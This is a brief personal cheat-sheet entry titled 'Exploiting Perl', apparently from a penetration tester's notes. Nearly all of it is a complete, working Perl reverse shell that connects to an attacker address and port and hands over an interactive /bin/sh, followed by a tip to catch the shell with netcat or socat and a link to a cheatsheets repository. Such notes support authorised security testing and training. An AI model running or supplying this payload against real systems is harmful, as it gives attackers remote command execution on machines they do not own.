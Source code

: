 # Exploiting Perl

* **author**:: Nathan Acks
* **date**:: 2022-07-11

A simple reverse shell:

```perl
use Socket;

$attacker_ip="10.0.0.1";
$attacker_port=1234;

socket(S, PF_INET, SOCK_STREAM, getprotobyname("tcp"));
if(connect(S,sockaddr_in($attacker_port, inet_aton($attacker_ip)))){
	open(STDIN, ">&S");
	open(STDOUT, ">&S");
	open(STDERR, ">&S");
	exec("/bin/sh -i");
};
```

Catch it with netcat or socat.

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
